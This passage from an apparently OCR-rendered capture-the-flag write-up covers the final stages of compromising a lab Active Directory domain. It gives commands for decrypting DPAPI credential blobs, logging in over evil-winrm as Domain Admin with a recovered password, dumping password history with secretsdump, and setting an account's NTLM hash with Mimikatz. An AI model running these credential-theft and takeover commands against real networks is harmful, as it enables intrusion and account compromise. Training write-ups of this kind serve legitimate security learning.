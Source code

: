         ```bash
        impacket-dpapi -credential <cred1_file> -key <decrypted_master_key>
        impacket-dpapi -credential <cred2_file> -key <decrypted_master_key>
        ```

        One of these decrypted blobs will reveal credentials for **`steph.cooper.adm`** (password: **`fivethchiponitsway2025`**).

5.  **Access Domain Admin Account:**
    The `steph.cooper.adm` account is a **Domain Admin**.

    ```bash
    evil-winrm -i 10.10.11.70 -u steph.cooper.adm -p 'fivethchiponitsway2025'
    ```

    This provides a shell as the Domain Admin.

6.  **Retrieve Root Flag:**

    ```powershell
    cd C:\Users\Administrator\Desktop
    type root.txt
    ```

### Beyond Root (Password History & Mimikatz)

The video also touches upon resetting passwords and the use of Mimikatz.

  * **Password History:** When `ant.edwards` changed `adam.silver`'s password, an enterprise would typically enforce a password history policy. Using `secretsdump.py` with the `--history` flag, you can dump password history hashes, allowing an attacker to revert a password to a previous one if necessary for operational security.
    ```bash
    secretsdump.py -u steph.cooper.adm -p 'fivethchiponitsway2025' puppy.htb --history
    ```
  * **Mimikatz for NTLM Hash Setting:** The video demonstrates using **Mimikatz** to set a user's NTLM hash directly, bypassing password policy checks.
    1.  **Upload Mimikatz:** Upload `mimikatz.exe` to the target (e.g., `C:\ProgramData`).
    2.  **Execute Mimikatz:**
        ```powershell
        C:\ProgramData\mimikatz.exe
        # Inside Mimikatz:
        privilege::debug
        lsadump::setntlm /user:adam.silver /ntlm:<desired_ntlm_hash>
        ```
        This allows setting `adam.silver`'s password to a specific NTLM hash (e.g., for `PleaseSubscribe!`), even if the account is disabled.
